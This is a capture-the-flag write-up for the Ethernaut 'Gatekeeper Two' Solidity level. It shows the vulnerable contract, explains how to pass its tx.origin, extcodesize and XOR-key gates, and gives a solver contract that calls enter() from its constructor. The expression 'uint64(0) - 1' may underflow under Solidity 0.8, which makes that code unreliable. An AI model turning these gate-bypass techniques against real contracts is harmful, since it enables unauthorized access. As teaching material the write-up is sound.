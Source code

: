 ***Gatekeeper Two***

This gatekeeper introduces a few new challenges. Register as an entrant to pass this level.

Things that might help:

- Remember what you've learned from getting past the first gatekeeper - the first gate is the same.

- The assembly keyword in the second gate allows a contract to access functionality that is not native to vanilla Solidity. See here for more information. The extcodesize call in this gate will get the size of a contract's code at a given address - you can learn more about how and when this is set in section 7 of the yellow paper.

- The ^ character in the third gate is a bitwise operation (XOR), and is used here to apply another common bitwise operation (see here). The Coin Flip level is also a good place to start when approaching this challenge.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperTwo {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller()) }
    require(x == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

**`gateOne()` is trivial. We can simply deploy a proxy contract.**

`gateTwo()` has some new properties, let's take a look:

```
uint x;
assembly { x := extcodesize(caller()) }
require(x == 0);
```
`assembly{}`: Inline assembly is a way to access the Ethereum Virtual Machine at a low level. This bypasses several important safety features and checks of Solidity. You should only use it for tasks that need it, and only if you are confident with using it.

An inline assembly block is marked by `assembly { ... }`, where the code inside the curly braces is code in the ***Yul*** language.

`caller()`: call sender (excluding `DELEGATECALL`)

`:=`: assignment

`extcodesize(a)`: size of the code at address a

While a contract is being deployed and the constructor function is running, `extcodesize` will have a size of 0, fulfilling the requirements for `gateTwo()`.**

`gateThree()` requires us to construct a key of format bytes8 that has the following requirement:

```
uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max
```

Sheesh. Let's start with the right side since that's smaller.

`type(T).max`: The largest value representable by type T. This is to say, in binary form, 64 bits maxxes out at `1111111111111111111111111111111111111111111111111111111111111111`. In base 10, this is 18446744073709551615. In Hexadecimal, this is FFFFFFFFFFFFFFFF.

On the left side, basically we need to calculate a `_gateKey` that matches that number. The `^` isn't an exponent, it's the bitwise operation (XOR).

In simple terms, if we line up two binaries, the result of each position is 1 if ***only one*** of the inputs is 1. Here's an example:

```
a = 5;        // 0101
b = 3;        // 0011

(a ^ b);      // 0110
// output: 6
```

Now that we know this, we know that we'll need to calculate a key that compliments whatever the result of `uint64(bytes8(keccak256(abi.encodePacked(msg.sender))))` is. For example:

```
result:    00101010 (042)
key:       11010101 (213)

combined:  11111111 (255)
```

As you may have guessed from this example, the compliment of any value (V) of bits(N) is equal to bits(N).max - (V). This means that for `gateThree()`, the `_gateKey` can be calculated as the difference between the `type(uint64).max`-`uint64(bytes8(keccak256(abi.encodePacked(msg.sender))))`. Let's put that logic in a smart contract.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface GatekeeperTwo {
    function enter(bytes8 _gateKey) external returns (bool);
}

contract Hack {
    constructor(address _addr){
        (bool success, ) = address(GatekeeperTwo(_addr)).call(
            abi.encodeWithSignature("enter(bytes8)", bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ (uint64(0) - 1)))
        );
    }
}
```
That's it, we're in!

![Alt text](complete.jpg)